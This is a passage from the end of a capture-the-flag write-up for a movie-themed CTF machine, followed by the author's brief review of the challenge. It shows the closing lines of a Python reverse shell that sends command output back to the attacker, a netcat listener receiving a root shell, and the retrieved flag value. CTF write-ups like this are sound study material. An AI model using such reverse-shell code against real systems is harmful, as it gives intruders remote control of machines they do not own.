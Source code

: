 ```python
     stdout_value = proc.stdout.read() + proc.stderr.read()
     # send output to attacker
     s.send(stdout_value)
# close socket
s.close()
```

And then listened to it:

```
root@kali:~/Downloads# nc -lvn -p 443 -s 192.168.1.1
listening on [192.168.1.1] 443 ...
connect to [192.168.1.1] from (UNKNOWN) [192.168.1.101] 51994
[*] Connection Established!
whoami
root
hostname
skydogctf
cd /root
ls
BlackBox
ls /root/BlackBox 
flag.txt
cat /root/BlackBox/flag.txt
flag{b70b205c96270be6ced772112e7dd03f}

Congratulations!! Martin Bishop is a free man once again!  Go here to receive your reward.
/CongratulationsYouDidIt^C
```

So flag number 6 is

> flag{b70b205c96270be6ced772112e7dd03f}

It resolves to "**CongratulationsYouDidIt**".

The folder on the webserver contains a video *You're the best... around!.mp4*. 

Okay

## Conclusion

It was a really nice CTF. Kinda easy, but nice. I liked the OPSEC part to gain more info about the target. The reference to the movie was made very nice, too. There where many of them, I watched the movie again (you should do that, too) and resolved some of the riddles then. I want more like that!

What could be done better is to name the flags, at the beginning I did not know which flag I found.